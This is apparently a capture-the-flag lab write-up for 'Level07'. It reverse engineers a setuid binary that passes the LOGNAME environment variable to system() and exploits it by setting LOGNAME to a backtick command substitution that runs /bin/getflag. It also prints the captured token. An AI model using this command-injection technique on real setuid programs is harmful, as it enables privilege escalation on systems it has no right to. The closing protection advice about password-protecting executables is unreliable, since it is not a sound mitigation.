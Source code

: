 # Level07

### Tools


### How to solve it

1. After loging in using ssh in level07@(vmIP): 
```
ssh level07@000.000.000.000 -p 4242
```
2. When loging in we get this file:
```
level07
```
3. We use string level07 and we have some interest return:
```
/home/user/level07/level07.c -> But the file is not there
/bin/echo %s -> Indicates that this path from echo function may be exploited
system, getenv, and setresgid/setresuid -> system calls 
LOGNAME -> Probably ENV variable 

```
4. We have this information but after trying many things we get to nowhere, after that we go further and try to use Ghidra. Ghidra is a tool to analyse files and do reverse engineering. In this case after analyzing it we find the level07.c source and we decompile it and we get: 
```
int main(int argc,char **argv,char **envp)
{
  char *param2;
  int iVar1;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  param2 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",param2);
  iVar1 = system(local_1c);
  return iVar1;
}
```
5. If we type env we also get some info and one is : 
```
LOGNAME=level07

```
5. Analyzing it we so have the information that the LOGNAME could be substituted by our getflag command to be executed along with level07 executable.
```
LOGNAME='`/bin/getflag`'
./level07

```
7. And Boom:
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional protection in this case would be protecting with passwords all executables that has ENV variables.

